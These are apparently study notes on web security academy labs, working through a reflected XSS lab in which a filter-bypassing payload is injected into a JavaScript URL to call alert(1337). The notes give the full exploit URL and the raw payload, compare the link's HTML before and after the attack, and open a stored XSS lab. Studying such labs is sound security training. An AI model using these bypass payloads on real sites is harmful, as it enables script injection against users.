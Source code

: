 - This lab reflects your input in a JavaScript URL, but all is not as it seems. This initially seems like a trivial challenge; however, the application is blocking some characters in an attempt to prevent XSS attacks. To solve the lab, perform a cross-site scripting attack that calls the alert function with the string 1337 contained somewhere in the alert message

- `https://0a98002a03f88bf8c0900be1005200de.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27`

- `&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:'`

- alert will appear clicking `back to blog` link

- analysis
- Normal link at `back to blog`

```html
<a
  href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d3'}).finally(_ => window.location = '/')"
></a>
```

- after exploit,

```html
<a
  href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d3%26%27},x%3dx%3d%3e{throw/**/onerror%3dalert,1337},toString%3dx,window%2b%27%27,{x%3a%27'}).finally(_ => window.location = '/')"
></a>
```

URL decode -

```html
<a
  href="javascript:fetch('/analytics', {method:'post',body:'/post?postId=3'}).finally(_ => window.location = '/')"
></a>
```

Vs

```html
<a
  href="javascript:fetch('/analytics', {method:'post',body:'/post?postId=3&'},x=x=>{throw/**/onerror=alert,1337},toString=x,window+'',{x:''}).finally(_ => window.location = '/')"
></a>
```

---

## Lab - 22: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped (P)

- This lab contains a stored cross-site scripting vulnerability in the comment functionality. To solve this lab, submit a comment that calls the alert function when the comment author name is clicked.
